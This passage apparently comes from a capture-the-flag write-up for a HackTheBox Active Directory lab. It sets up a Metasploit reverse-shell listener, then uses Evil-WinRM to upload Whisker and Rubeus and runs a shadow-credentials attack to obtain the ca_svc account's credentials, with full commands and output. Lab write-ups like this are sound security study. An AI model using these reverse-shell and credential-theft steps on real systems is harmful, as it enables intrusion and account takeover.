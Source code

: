 
```sh
: msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 10.10.14.28
lhost => 10.10.14.28
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.28:4444 
```
# Rabbit Holes with some good exfil of ca_svc hash

I didn't really understand certificate manager powers at the time of this challenge, and it's now been a month since I did this. But below is some documentation I used at the time to educate myself:

[https://decoder.cloud/2023/11/20/a-deep-dive-in-cert-publishers-group/](https://decoder.cloud/2023/11/20/a-deep-dive-in-cert-publishers-group/)  
[Precompiled windows exploit bins, maybe not the safest thing to use.](https://github.com/jakobfriedl/precompiled-binaries)

I found that using these binaries on the remote system made life a lot easier as ccaches are already natively loaded, and access to the RPC is unfettered. I have to assume this is also a lot noisier than the remote tools and should practice those more.

But using whisker we're going to do the same attack as above, but get the credentials loaded for ca_svc this time. ca_svc doesn't have remote access to the machine, so we'll need to use them on the server this time.

```sh
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload Whisker.exe
                                        
Info: Uploading /home/tokugero/ctf/htb/season8/week2-fluffy/Whisker.exe to C:\Users\winrm_svc\Documents\Whisker.exe
                                        
Data: 59392 bytes of 59392 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ./Whisker.exe add /target:ca_svc
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password Xv5kPOhy57oYpl41
[*] Searching for the target account
[*] Target user found: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID df3c9c61-6788-419c-a658-ca8d6cbfb24e
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Run Rubeus.exe asktgt /user:ca_svc /certificate:MIIJ<snip>lIsfFAgIH0A== /password:"Xv5kPOhy57oYpl41" /domain:fluffy.htb /dc:DC01.fluffy.htb /getcredentials /show

*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload Rubeus.exe
                                        
Info: Uploading /home/tokugero/ctf/htb/season8/week2-fluffy/Rubeus.exe to C:\Users\winrm_svc\Documents\Rubeus.exe
                                        
Data: 664916 bytes of 664916 bytes copied
                                        
```